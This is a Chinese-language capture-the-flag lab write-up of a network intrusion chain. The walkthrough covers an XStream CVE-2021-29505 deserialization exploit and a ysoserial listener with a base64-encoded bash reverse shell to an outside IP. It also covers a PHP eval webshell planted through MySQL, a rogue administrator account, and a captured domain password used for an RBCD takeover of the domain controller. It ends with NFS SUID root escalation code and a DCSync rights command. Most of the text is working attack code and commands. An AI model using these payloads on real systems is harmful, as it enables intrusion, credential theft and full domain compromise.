


# flag1


开放了8080端口，以及存在ftp匿名登录，并且存在一个1.txt和pom.xml，可能是java的依赖


```
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
    <parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>2.7.2</version>
        <relativePath/> <!-- lookup parent from repository -->
    </parent>
    <groupId>com.example</groupId>
    <artifactId>ezjava</artifactId>
    <version>0.0.1-SNAPSHOT</version>
    <name>ezjava</name>
    <description>ezjava</description>
    <properties>
        <java.version>1.8</java.version>
    </properties>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-thymeleaf</artifactId>
        </dependency>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>

        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-test</artifactId>
            <scope>test</scope>
        </dependency>

        <dependency>
            <groupId>com.thoughtworks.xstream</groupId>
            <artifactId>xstream</artifactId>
            <version>1.4.16</version>
        </dependency>

        <dependency>
            <groupId>commons-collections</groupId>
            <artifactId>commons-collections</artifactId>
            <version>3.2.1</version>
        </dependency>
    </dependencies>

    <build>
        <plugins>
            <plugin>
                <groupId>org.springframework.boot</groupId>
                <artifactId>spring-boot-maven-plugin</artifactId>
            </plugin>
        </plugins>
    </build>

</project>
```

发现了CC3.2.1的依赖以及xstream1.4.16，可以打CVE-2021-29505，网站首页抓包发现可以直接发送xml格式内容


起一个jrmp监听

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "bash -c {echo,YmFzaCAtaSAmPiAvZGV2L3RjcC80Ny45My4yNDguMjIxLzIzMzMgMD4mMQ==}|{base64,-d}|{bash,-i}"
```


```
<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>47.93.248.221</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>47.93.248.221</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```



为了方便，先把ssh写上去


# flag3

传上去fscan扫一下内网


内网网段172.22.13.14，先扫C段


发现了域，域控违172.22.13.6，并且还发现了一台mysql的弱口令，这台机器在域内，另外还有台centos，先从简单的mysql入手，这个已经有了root命令

172.22.13.28这台机器有web服务，先看看mysql有没有写文件的权限


```
show variables like "secure_file_priv";
```


Secure_file_priv为空，可以写文件，看看plugins目录在哪儿，便于udf提权

```
show variables like '%plugin%';
```


意外发现，这是phpstudy起的服务，那直接写一个webshell先，直接selete into outfile

```
select '<?php eval($_REQUEST[1]);?>' into outfile 'C:\\phpstudy_pro\\WWW\\1.php';
```


连接成功


Phpstudy起的服务权限很大，进去就是system权限了，拿到了flag03


创建用户rdp登录

```
net user DawnT0wn qwer1234! /add
net localgroup administrators DawnT0wn /add
```

先传一个mimikatz抓一下密码


抓到了chenglei这个域内用户的密码和hash，密码

登录这个域账户用sharphound收集信息



查看最短路径


# flag4

可以发现，chenglei这个用户是ACL ADMIN组内的用户，并且ACL ADMIN组对域控有writeDacl权限，那么就可以去写一些内容，比如说dcsync，rbcb的属性来通过rbcd拿下域控，直接写rbcd吧

```
python3 addcomputer.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -dc-host xiaorang.lab -computer-name 'TEST$' -computer-pass 'P@ssw0rd'

python3 rbcd.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -dc-ip 172.22.13.6 -action write -delegate-to 'WIN-DC$' -delegate-from 'TEST$'

python3 getST.py xiaorang.lab/'TEST$':'P@ssw0rd' -spn cifs/WIN-DC.xiaorang.lab -impersonate Administrator -dc-ip 172.22.13.6

export KRB5CCNAME=Administrator.ccache

python3 psexec.py Administrator@WIN-DC.xiaorang.lab -k -no-pass -dc-ip 172.22.13.6
```


添加hosts再访问域控


# flag2

拿下了域控，但是administrator的hash也没有用，最后剩了一台centos，题目说部署了nfs


首先更新一下ssh连上去的那台机子上的依赖，不然没有相应的命令

```
sudo sed -i 's/archive.ubuntu.com/mirrors.aliyun.com/g' /etc/apt/sources.list
sudo apt-get update
apt-get install nfs-common -y
```

接下来在根目录挂载一下服务

```
cd /
mkdir temp
mount -t nfs 172.22.13.57:/ ./temp -o nolock
```


挂载后只能访问/home/joyce目录，因为57这台机器开了22端口的，可以往挂载的目录写ssh连过去


```
ssh joyce@172.22.13.57
```


接下来需要提权


suid看到了ftp和pkexec，尝试pkexec，chmod没有suid权限，无法加可执行权限

https://fushuling.com/index.php/2023/10/04/%E6%98%A5%E7%A7%8B%E4%BA%91%E5%A2%83%C2%B7delivery/这里用到了ftp提权，wp中直接就用nfs提权了


开启了`no_root_squash`选项设置，这样在web机挂载目录改变权限是，在joyce用户中的权限也得以改变

所以直接编译一个调用bash的二进制文件，然后加suid权限，运行就是root权限了

```
#include<unistd.h>
void main()
{
        setuid(0);
        setgid(0);
        system("/bin/bash");
}
```


可以看到执行后，exp具有了suid权限，运行后得到root权限


其实crontab也有suid位，可以试试直接创建计划任务，但是时间不够了


时间不够，不然还可以试试写dcsync直接导出域内所有hash

```
Add-DomainObjectAcl -TargetIdentity testlab.local -Rights DCSync
```


参考链接：

https://fushuling.com/index.php/2023/10/04/%E6%98%A5%E7%A7%8B%E4%BA%91%E5%A2%83%C2%B7delivery/

https://exp10it.io/2023/08/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-delivery-writeup/#flag02

https://xz.aliyun.com/t/11664?time__1311=Cq0xRQKeqqlxu78frCDRgDAx7w%2BVQoD#toc-12

https://shigophilo.github.io/BloodHound%E5%90%84%E6%9D%83%E9%99%90%E7%9A%84%E5%88%A9%E7%94%A8/#writedacl
